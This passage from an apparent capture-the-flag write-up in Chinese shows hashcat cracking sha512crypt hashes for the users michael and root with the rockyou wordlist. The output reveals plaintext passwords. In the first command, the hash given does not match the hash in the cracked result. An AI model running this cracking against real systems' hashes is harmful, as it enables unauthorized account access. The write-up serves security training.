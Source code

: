 ![截图](098231396fd9624131ded0bec1cd8930.png)

我们现在有了 michael 和 root 的哈希值，我们可以使用 hashcat 来破解它们。

## Hashcat

```
#hashcat '$6$YiFC5EHwcE/nqUgi$aG3i.wyHFMyabCBcYrYwGwMRIvZOOtSPO1WhpeGv7M.MWk6oHZDgCpcfVWCY.6p7YMGZTZazKs2xTdTgg0K5i1' /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside

root
blindside

#hashcat '$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/'   /usr/share/wordlists/rockyou.txt --show
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System

NOTE: Auto-detect is best effort. The correct hash-mode is NOT guaranteed!
Do NOT report auto-detect issues unless you are certain of the hash type.

$6$mG3Cp2VPGY.FDE8u$KVWVIHzqTzhOSYkzJIpFc2EsgmqvPa.q2Z9bLUU6tlBWaEwuxCDEP9UFHIXNUcF2rBnsaFYuJa6DUh/pL2IJD/:insaneclownposse


root
blindside
```